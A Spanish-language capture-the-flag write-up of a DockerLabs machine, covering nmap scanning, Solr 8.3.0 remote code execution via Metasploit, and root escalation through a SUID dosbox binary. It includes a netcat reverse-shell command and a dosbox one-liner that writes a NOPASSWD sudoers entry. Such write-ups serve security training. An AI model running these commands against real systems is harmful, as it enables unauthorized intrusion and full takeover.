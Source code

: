 # Máquina Eclipse
- **Nombre de la Máquina:** Fooding
- **Sistema Operativo**: Linux
- **Dificultad:** Medium
- **Plataforma:** DockerLabs
- **Dirección IP:** 172.17.0.2
- **Vulnerabilidades Explotadas:**
	- Slor 8.3.0 Remote Code Execution via Velocity Template

### Reconocimiento y enumeración
Comenzamos realizando un escaneo general con nmap sobre la IP de la máquina víctima para ver que puertos tiene abiertos.
```bash
sudo nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oN escaneo.txt
```
![Pasted image 20240709193254](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/e0741a7d-94f7-4c97-a521-6c77e238e1d3)

Nos reporta el puerto 80 y el puerto 8983, haremos un escaneo mas exhaustivo para ver que corre por cada puerto.
```bash
sudo nmap -p 80,8983 -sCV 172.17.0.2 -oN targeted.txt
```
![Pasted image 20240709193514](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/16ab5a02-6480-4993-98f3-1209a06c73cc)

- Puerto 80: HTTP Apache
- Puerto 8983: Solr Admin

Después de analizar el informe de nmap, identificamos que el puerto 80 está activo y ejecuta un servicio Apache. Además, notamos que en el puerto 8983 se está ejecutando otro servicio, que es un servidor web desarrollado en Java y empleado para realizar búsquedas específicas, como las que se realizan dentro de un blog.

En el puerto 80 solo encontramos una imagen, la cual no nos aporta información útil, por lo que decidí investigar más a fondo el servicio Solr.

![Pasted image 20240709194022](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/176f0ce5-e677-46b7-b68b-906ab788f86d)

Como podemos observar en el panel de control, se muestra la versión del servicio. Con esta información, procedo a investigar si existen vulnerabilidades explotables.

Tuvimos suerte y encontramos varios métodos de explotación. Básicamente, es el mismo procedimiento, pero con diferentes enfoques: uno utilizando Metasploit y otro empleando un script en Python.
[Exploit Solr 8.3.0](https://www.exploit-db.com/exploits/48338)

### Explotación

    - Utilizo tanto el método con msfconsole como con el script.

Con Metasploit, sigo los pasos después de analizarlos cuidadosamente y los adapto a mi entorno.

#### Metasploit
Buscamos el exploit con el comando:
```bash
search solr
```
![Pasted image 20240709195212](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/e2c2ae74-3d41-431a-8829-aec31a474756)


```bash
use 0
set RHOSTS 172.17.0.2
set LHOST 172.17.0.1
check
```
![Pasted image 20240709195413](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/fa080517-d09c-4c7f-a63e-903089e2d3f6)

Al poner check, nos dice que el target es vulnerable.
![Pasted image 20240709195557](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/eec4a79e-ff88-4b9c-bbe2-9a8808fbb308)

Ejecutamos el comando run y estaremos dentro de la máquina como usuario ninhack.
![Pasted image 20240709195738](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/b4d64aff-c782-4e28-864a-11f5adeebc3a)


### Escalada de privilegios
Primero me mandé una shell para trabajar mas cómodo con el siguiente comando:
```bash
nc 172.17.0.1 1234 -e /bin/bash
```

Para la escalada de privilegios primero probé  con sudo y nos pide contraseña así que me puse a investigar y vi que tengo permisos SUID con el binario **dosbox**.
```bash
find / -perm -4000 2>/dev/null
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/su
/usr/bin/dosbox
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Miro en la página [GTFOBins](https://gtfobins.github.io/gtfobins/dosbox/#suid) y encuentro justo el método para escalar privilegios usando ese script.

Después de investigar un poco, entiendo que este binario nos permite escribir en el sistema. Esto nos da la posibilidad de modificar ciertos archivos para obtener privilegios de root.

Para finalizar la explotación, realizo lo siguiente con sudoers:

```bash
LFILE='\etc\sudoers.d\ninhack'
/usr/bin/dosbox -c 'mount c /' -c "echo ninhack ALL=(ALL:ALL) NOPASSWD: ALL >c:$LFILE" -c exit
```

Una vez ejecutados esos comandos, solo necesitamos ejecutar `sudo su` para convertirnos en usuario root.
![Pasted image 20240709201931](https://github.com/torralvoPrueba/Writeups_Hacking/assets/102786092/18a446b4-a44b-42b3-b540-580cc1d50a51)
